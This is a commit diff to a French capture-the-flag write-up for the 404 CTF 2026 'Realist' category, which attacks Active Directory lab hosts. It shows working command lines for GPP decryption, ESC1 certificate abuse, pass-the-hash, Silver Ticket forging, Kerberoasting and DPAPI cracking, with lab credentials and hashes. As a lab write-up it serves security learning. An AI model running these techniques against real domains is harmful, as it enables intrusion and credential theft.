

Before and after one commit to SaAbyy/SaAbyy.github.io, a Jekyll site: the page built from _writeups/404 CTF 2026 - Realist Category.md, in a window 1280 px wide and 1400 px high, scrolled down 5546 px. Shown: the whole window at 94% size, without its empty margins (1-983 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Revise 404CTF 2026 Realist Category writeup
Updated the writeup for the 404CTF 2026 Realist Category, correcting titles, descriptions, and clarifying steps for various challenges.

````diff
--- a/_writeups/404 CTF 2026 - Realist Category.md
+++ b/_writeups/404 CTF 2026 - Realist Category.md
@@ -18,7 +18,7 @@
 nxc smb 10.0.10.56 -u '' -p '' --users
 ```
 
-Les utilisateurs sont exposés sans authentification.
+Les utilisateurs sont exposés sans authentification, le flag est présent dans la déscription de l'utilisateur "marie_curie" :
 
 ```
 404CTF{M4r13_Cur13_3st_Un3_Pr0!}
@@ -26,17 +26,19 @@
 
 ---
 
-## Le Secret de Lavoisier — GPP Credentials
+## Le Secret de Lavoisier
 
 **Cible :** `10.0.10.154`
 **Credentials :** `metro3681_404Player` / `5369Hivgxil@$*`
 
-Enumération des partages :
+Enumération des users et des partages :
 
 ```bash
 nxc smb 10.0.10.154 -u 'metro3681_404Player' -p '5369Hivgxil@$*' --users
 smbclient //10.0.10.154/SYSVOL -U 'metro3681_404Player%5369Hivgxil@$*'
 ```
+
+On récupère le contenu du SYSVOL :
 
 ```bash
 smb: \> recurse on
@@ -45,18 +47,19 @@
 find . -type f -exec strings {} \;
 ```
 
-Un fichier GPP contient un mot de passe chiffré. Le chiffrement GPP (AES-256) utilise une clé publique Microsoft — déchiffrement trivial :
+Un fichier GPP contient un mot de passe chiffré. Le chiffrement GPP (AES-256) utilise une clé publique Microsoft, l'outil gpp-decrypt nous permet de le déchiffrer :
 
 ```bash
 gpp-decrypt 'Ds5TqVEfXejILl8sHlc7R+UZtaGgP/Ong8YuGea+dS01Yz5SwdV7BCgrnWVDAkzPBhUZoXTmoxv/BqJeeGaXzw=='
-# → LavoisierForgotMyPassword2026!
+# LavoisierForgotMyPassword2026!
 ```
 
-Compte `backup_reader` compromis → accès au partage Backups :
+Le compte `backup_reader` compromis nous permet l'accès au partage Backups :
 
 ```bash
 smbclient //10.0.10.154/Backups -U 'backup_reader%LavoisierForgotMyPassword2026!'
 ```
+Et on récupère le flag :
 
 ```
 404CTF{L4v01s13r_N_41m41t_P4s_L3s_GPP!}
@@ -64,21 +67,14 @@
 
 ---
 
-## La Résolution de Le Verrier — ADIDNS via LDAP
+## La Résolution de Le Verrier
 
 **Cible :** `10.0.10.19`
 **Credentials :** `maison3185_404Player` / `&!%dlalqm4380L`
-
-L'indice : Le Verrier a découvert Neptune **par le calcul** — le flag est dans les enregistrements DNS cachés, lisibles via LDAP.
-
 **AXFR bloqué ≠ DNS opaque.** Sur un AD Windows, les enregistrements DNS sont stockés dans LDAP sous `DomainDnsZones`.
 
 ```bash
-ldapsearch -x -H ldap://10.0.10.19 \
-  -D "maison3185_404Player@ctfcorp.local" \
-  -w '&!%dlalqm4380L' \
-  -b "CN=MicrosoftDNS,DC=DomainDnsZones,DC=ctfcorp,DC=local" \
-  "(objectClass=dnsNode)" dc dnsRecord | grep "^dc:"
+ldapsearch -x -H ldap://10.0.10.19 -D "maison3185_404Player@ctfcorp.local" -w '&!%dlalqm4380L' -b "CN=MicrosoftDNS,DC=DomainDnsZones,DC=ctfcorp,DC=local" "(objectClass=dnsNode)" dc dnsRecord | grep "^dc:"
 ```
 
 Un nœud suspect apparaît : `r3st0r3-7f3a91e2`
@@ -91,11 +87,11 @@
 404CTF{ADIDNS_LD4P_3num_R3v34ls_Wh4t_AXFR_H1d3s}
 ```
 
-> **Leçon :** AXFR bloqué ne signifie pas que les zones DNS sont protégées. Un compte AD authentifié peut dumper tous les enregistrements via LDAP — exactement comme Le Verrier a déduit Neptune sans jamais la voir.
+AXFR bloqué ne signifie pas que les zones DNS sont protégées. Un compte AD authentifié peut dumper tous les enregistrements via LDAP.
 
 ---
 
-## Protocole Pasteur \[1/3\] — Named Pipe IPC$
+## Protocole Pasteur \[1/3\]
 
 **Cible :** `10.0.10.81`
 **Credentials :** `toit746_404Player` / `$*#4419Xyoiyqq`
@@ -144,32 +140,24 @@
 certipy find -u 'chien9341_404Player' -p 'qzpkpf*#%6159B' -dc-ip 10.0.10.159 -vulnerable -enabled
 ```
 
-Le template `CTFAuditorAuth` est vulnérable à **ESC1** — il permet de spécifier un UPN arbitraire dans la requête.
+Le template `CTFAuditorAuth` est vulnérable à **ESC1** : il permet de spécifier un UPN arbitraire dans la requête.
 
 ```bash
 # Synchroniser l'heure (obligatoire pour Kerberos)
 ntpdate -u 10.0.10.159
 
 # Demande de certificat en usurpant vip_auditor
-certipy req \
-  -u 'chien9341_404Player' \
-  -p 'qzpkpf*#%6159B' \
-  -dc-ip 10.0.10.159 \
-  -ca 'ctfcorp-DC1-CA' \
-  -template 'CTFAuditorAuth' \
-  -upn 'vip_auditor@ctfcorp.local'
+certipy req -u 'chien9341_404Player' -p 'qzpkpf*#%6159B' -dc-ip 10.0.10.159 -ca 'ctfcorp-DC1-CA' -template 'CTFAuditorAuth' -upn 'vip_auditor@ctfcorp.local'
 
-# Authentification → récupération du hash NTLM
+# Authentification et récupération du hash NTLM
 certipy auth -pfx vip_auditor.pfx -dc-ip 10.0.10.159
 ```
 
-Hash NTLM récupéré → Pass-the-Hash :
+Pass-the-Hash :
 
 ```bash
-smbclient.py \
-  -hashes aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe \
-  ctfcorp.local/vip_auditor@10.0.10.159
-# use AuditReports → get confidential_q1_audit.txt
+smbclient.py -hashes aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe ctfcorp.local/vip_auditor@10.0.10.159
+# use AuditReports => get confidential_q1_audit.txt
 ```
 
 ```
@@ -190,17 +178,10 @@
 # Clé AES256 : 55b4857af9e48fa5b4be74a2ee1bd64ca985720787717c4bc3b205e13bb3d291
 ```
 
-`svc_broker$` a la délégation contrainte vers `HTTP/gateway.pasteur.lab`. `legacy_admin` est désactivé → S4U2Proxy impossible → **Silver Ticket**.
+`svc_broker$` a la délégation contrainte vers `HTTP/gateway.pasteur.lab`. `legacy_admin` est désactivé donc S4U2Proxy impossible, nous devons faire un **Silver Ticket**.
 
 ```bash
-ticketer.py \
-  -aesKey 55b4857af9e48fa5b4be74a2ee1bd64ca985720787717c4bc3b205e13bb3d291 \
-  -domain-sid S-1-5-21-2991091012-709284574-3735152529 \
-  -domain CTFCORP.LOCAL \
-  -spn HTTP/gateway.pasteur.lab \
-  -user-id 1105 \
-  -groups 1104,513,512 \
-  legacy_admin
+ticketer.py -aesKey 55b4857af9e48fa5b4be74a2ee1bd64ca985720787717c4bc3b205e13bb3d291 -domain-sid S-1-5-21-2991091012-709284574-3735152529 -domain CTFCORP.LOCAL -spn HTTP/gateway.pasteur.lab -user-id 1105 -groups 1104,513,512 legacy_admin
 ```
 
 Configuration Kerberos pour le realm cross-domain :
@@ -225,35 +206,28 @@
 ```
 404CTF{S1lv3r_P4st3ur_Gh0st_1d3nt1ty_L3g3ndr3}
 ```
-
-| Erreur | Cause | Fix |
-|--------|-------|-----|
-| `SPNEGO cannot find mechanisms` | `KRB5CCNAME` non défini | `export KRB5CCNAME=...` |
-| `Matching credential not found` | `gateway.pasteur.lab` résolu en `PASTEUR.LAB` | Mapper `.pasteur.lab = CTFCORP.LOCAL` dans `krb5.conf` |
-| `Ticket not yet valid` | Horloge en avance | Synchro via header `Date:` de la 401 |
-
 ---
 
-## Le Rayonnement de Becquerel — Kerberoasting + AES decrypt
+## Le Rayonnement de Becquerel
 
 **Cible :** `10.0.10.166`
 **Credentials :** `rose4299_404Player` / `G3524*#!hvnmep`
 
-Kerberoasting → hash TGS crackable :
+Kerberoasting sur svc_reports :
 
 ```bash
 GetUserSPNs.py ctfcorp.local/rose4299_404Player:'G3524*#!hvnmep' -dc-ip 10.0.10.166 -request
-# → svc_reports : jerardo
+# svc_reports : jerardo
 ```
 
-Enumération LDAP avec `ldeep` → le champ `info` de `svc_reports` contient un blob base64 de 64 bytes :
+Enumération LDAP avec `ldeep`, le champ `info` de `svc_reports` contient un blob base64 de 64 bytes :
 
 ```bash
 ldeep ldap -u 'svc_reports' -p 'jerardo' -d ctfcorp.local -s ldap://10.0.10.166 all output.txt
 # info : ICe87sXN9KXC7PAqfvbo/fEXN0Nckl2K4Jf+96N9Wv4HAm25tOkoXaXx0hALmqQZB58ySOV6/7aBgziZx7Dr+w==
 ```
 
-Structure : `[16 bytes IV] + [48 bytes chiffrés]` — AES-256-CBC, clé = SHA-256 du mot de passe cracké.
+Structure : `[16 bytes IV] + [48 bytes chiffrés]` => AES-256-CBC, clé = SHA-256 du mot de passe cracké.
 
 ```python
 import base64, hashlib
@@ -271,61 +245,54 @@
 
 ---
 
-## Casse-toi le Stagiaire — DPAPI
+## Casse-toi le Stagiaire
 
 **Cible :** `10.0.10.192`
 **Credentials :** `rose2092_404Player` / `!&*Z7333psucpx`
 
 Le partage `Archive$` contient une master key DPAPI et un blob `credential.dpapi`.
 
-**Etape 1 — Retrouver le SID du compte supprimé**
+**Etape 1 : Retrouver le SID du compte supprimé**
+
+Le compte `stagiaire2015` a été supprimé mais reste dans `Deleted Objects`. On le retrouve avec le flag LDAP `1.2.840.113556.1.4.417` (Show Deleted Objects) :
 
 ```bash
-ldapsearch -H ldap://10.0.10.192 \
-  -D "rose2092_404Player@ctfcorp.local" -w '!&*Z7333psucpx' \
-  -b "DC=ctfcorp,DC=local" -E '!1.2.840.113556.1.4.417' \
-  "(isDeleted=TRUE)" objectSid sAMAccountName
-# → stagiaire2015 : S-1-5-21-2991091012-709284574-3735152529-1104
+ldapsearch -H ldap://10.0.10.192 -D "rose2092_404Player@ctfcorp.local" -w '!&*Z7333psucpx' -b "DC=ctfcorp,DC=local" -E '!1.2.840.113556.1.4.417' "(isDeleted=TRUE)" objectSid sAMAccountName
 ```
 
-**Etape 2 — Cracker la master key**
+Le champ `objectSid` est encodé en base64, puis décodé nous donne du binaire.
+
+Il faut reconstruire le SID, cela peut être fait en perl, avec le module net ldap SID :
 
 ```bash
-python3 DPAPImk2john.py \
-  -S S-1-5-21-2991091012-709284574-3735152529-1104 \
-  -mk ef59a354-0c8e-4e49-8b50-f9ce74964916 \
-  -c domain > dpapi.hash
-# → mot de passe : pipeline
+Perl (Net::LDAP::SID)
+perl -MNet::LDAP::SID -E '
+  my $binary = qx(echo AQUAAAAAAAUVAAAARG1Ist7SRiqR56HeUAQAAA== | base64 --decode);
+  my $sid = Net::LDAP::SID->new($binary);
+  say $sid->as_string'
 ```
 
-**Etape 3 — Déchiffrer**
+```
+→ S-1-5-21-2991091012-709284574-3735152529-1104
+```
+
+**Etape 2 : Cracker la master key**
 
 ```bash
-dpapi.py masterkey \
-  -file ef59a354-0c8e-4e49-8b50-f9ce74964916 \
-  -sid S-1-5-21-2991091012-709284574-3735152529-1104 \
-  -password pipeline
+python3 DPAPImk2john.py -S S-1-5-21-2991091012-709284574-3735152529-1104 -mk ef59a354-0c8e-4e49-8b50-f9ce74964916 -c domain > dpapi.hash
+# pipeline
+```
 
-dpapi.py unprotect \
-  -file credential.dpapi \
-  -key 0x1dba8abe7fab73814a1bd5bcd9f1314713e686ab3d5fb5be6779d91730db0eafeafaa8f22400d25fdc154e36bb3a448666a4d80fe49193738ef9b07d28817391
+**Etape 3 : Déchiffrer**
+
+```bash
+# Decrypt a master key
+dpapi.py masterkey -file ef59a354-0c8e-4e49-8b50-f9ce74964916 -sid S-1-5-21-2991091012-709284574-3735152529-1104 -password pipeline
+
+# Decrypt DPAPI-protected data using a master key
+dpapi.py unprotect -file credential.dpapi -key 0x1dba8abe7fab73814a1bd5bcd9f1314713e686ab3d5fb5be6779d91730db0eafeafaa8f22400d25fdc154e36bb3a448666a4d80fe49193738ef9b07d28817391
 ```
 
 ```
 404CTF{C4ss3_T01_M41s_T4_C0rb31ll3_P4rl3_3nc0r3}
 ```
-
----
-
-## Récapitulatif
-
-| Challenge | Technique | Flag |
-|-----------|-----------|------|
-| Les Cahiers de Curie | Null session SMB | `404CTF{M4r13_Cur13...}` |
-| Le Secret de Lavoisier | GPP Decrypt | `404CTF{L4v01s13r...}` |
-| La Résolution de Le Verrier | ADIDNS via LDAP | `404CTF{ADIDNS_LD4P...}` |
-| Protocole Pasteur 1/3 | Named Pipe IPC$ | `404CTF{P4st3ur_P1p3l1n3...}` |
-| L'Identité de Bertillon | ESC1 AD CS | `404CTF{ESC1_Y0u_4r3...}` |
-| Protocole Pasteur 2/3 | Silver Ticket | `404CTF{S1lv3r_P4st3ur...}` |
-| Le Rayonnement de Becquerel | Kerberoasting + AES | `404CTF{RC4_TGS_Wh1sp3rs...}` |
-| Casse-toi le Stagiaire | DPAPI | `404CTF{C4ss3_T01...}` |
````
Also changed, not shown: other parts of _writeups/404 CTF 2026 - Realist Category.md (+3 -3 lines).
